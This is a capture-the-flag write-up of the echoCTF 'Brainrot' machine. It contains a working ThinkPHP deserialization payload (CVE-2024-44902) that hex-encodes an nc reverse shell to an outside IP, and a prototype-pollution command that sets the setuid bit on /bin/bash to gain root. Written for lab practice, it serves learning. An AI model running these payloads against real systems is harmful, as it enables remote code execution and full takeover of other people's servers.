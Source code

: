 ```yaml
---
description: >-
  Brainrot echoCTF Machine
title: Brainrot (Advanced)                # Add title here
date: 2025-01-26 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: [ThinkPHP, Deserialization, Prototype Pollution]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Brainrot.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.38
```

### Content

- ThinkPHP Deserialization vulnerability [CVE-2024-44902]
- Protoype Pollution on @bit/loader [CVE-2024-24293]

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Sun Jan 26 23:29:37 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.38
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.38 ()     Status: Up
Host: 10.0.14.38 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-29 00:56:39 EST for 58s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 74:83:fc:82:0e:02:d9:63:59:80:9f:f9:de:31:17:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO40e2JaSpjhdqxYQ6C2x/SBYzN1gMVUESNpCDIJSStS92QBgqpbKSZpZQaFZ2L/m2jucsTRW+48uSqdL0TsrlY=
|   256 cc:8a:34:47:e0:4e:7b:c7:7b:e0:31:56:db:63:2c:b8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOL2ddjfYthCMDlkADh4dnHZ4+TwZXYHrMOhcLxySy2
80/tcp open  http    syn-ack ttl 63 (PHP 8.2.24)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found

|_    Allow:GET, POST, PUT, DELETE
| http-methods: 
|   Supported Methods: GET POST PUT DELETE
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

### Exploitation

Only HTTP port open, with the following number, which seems to be a version:

![](/assets/img/Pasted-image-20250126223838.png)

Then we have enough information to lookup for the name of the technology running on this port, and the only perfect match is ThinkPHP:

![](/assets/img/Pasted-image-20250126223454.png)

While investigating, I found a vulnerability [CVE-2024-44902](https://github.com/advisories/GHSA-f4wh-359g-4pq7) on ThinkPHP version 8.0.4:

![](/assets/img/Pasted-image-20250126224019.png)

The payload is an image so I have to extract the data from it, the OS command within the payload is `whoami`:
```bash
```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
``````

And then the payload retrieves the information as follows:

![](/assets/img/Pasted-image-20250126230927.png)

Now the interesting part here, is that you need to provide the length of the payload you want to execute (number 6 for whoami), prior to sent the payload:

![](/assets/img/Pasted-image-20250126234525.png)

So in order to get a reverse shell, we get the length of the string and then change it by the 32 instead:

![](/assets/img/Pasted-image-20250126234859.png)

This is the final payload I used:

```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A32%3A%22%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%35%2e%31%32%32%20%31%32%33%34%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

### Privilege Escalation
There is a binary that can be executed as Sudo without credentials:
![](/assets/img/Pasted-image-20250126235201.png)

The content of such binary is this:
![](/assets/img/Pasted-image-20250126235216.png)

There is a Prototype Pollution vulnerability on `@bit/loader`:

![](/assets/img/Pasted-image-20250126235402.png)

After several attempts and also a good chatGPT aid, I came with the following payload:
```bash
www-data@brainrot:/$ sudo /usr/local/bin/bitrot '{"__proto__": {"is_admin": true, "properties": {"username": "ebbg", "cmd": "require(\"child_process\").exec(\"chmod +s /bin/bash\")"}}}'

```
That allows us to run `/bin/bash` as root:
```bash
www-data@brainrot:/$ /bin/bash -p
bash-5.2# whoami
root
```

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials

No credentials were found on this machine.

### Notes

-  For Prototype Pollution attacks, specially if this are crafted with JSON, it is really important to escape key chars such as doble quote ("), because the payload sometimes is not working while trying to exploit this vulnerability. 

### References

- [CVE-2024-44902](https://github.com/advisories/GHSA-f4wh-359g-4pq7)
- [Protoype Pollution on @bit/loader](https://security.snyk.io/vuln/SNYK-JS-BITLOADER-6928980)
- [ThinkPHP Deserialization vulnerability](https://github.com/fru1ts/CVE-2024-44902)

